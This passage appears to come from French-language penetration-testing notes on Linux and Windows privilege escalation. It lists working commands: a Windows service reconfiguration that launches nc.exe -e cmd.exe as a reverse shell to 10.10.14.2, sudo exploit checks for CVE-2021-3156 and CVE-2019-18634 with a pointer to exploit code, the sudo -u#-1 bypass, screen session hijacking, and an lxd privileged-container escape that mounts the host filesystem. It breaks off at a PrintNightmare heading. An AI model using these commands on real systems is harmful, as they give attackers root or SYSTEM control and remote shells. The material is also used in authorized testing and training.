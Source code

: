 Et apres lancer le service avec le chemin modifier :
```powershell
net start daclsvc
```
---
Quand les groupes de l'utilisateur permet de lancer et stopper des services :
```powershell
sc.exe config <services> binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2
1234"
sc.exe stop <services>
sc.exe start <services>
```
---
Sudo Buffer Overflow vérif (*CVE-2021-3156*):
```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
Si return : Malloc() memory corruption... -> vulnérable
---
Les versions de sudo < 1.8.28 :
```bash
sudo -u#-1 <command>
```
---
*CVE-2019-18634*
Si dans le fichier /etc/sudoers, le pwfeedback est activé -> vulnérable :
PoC
```bash
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
```
S'il y a une Segmentation fault -> vulnérable
Dowload le exploit.c et le compiler puis l'upload sur la victime et le lancer.
[CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)
---
Avec screen d'activer :

```bash
/usr/bin/screen -x root/root
```
---
Avec le groupe lxd :

```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image

lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

lxc start privesc
lxc exec privesc /bin/sh
~# cd /mnt/root #Here is where the filesystem is mounted
```
---
PrintNightmare (CVE-2021-1675), avoir avoir download la CVE sur la victime : 
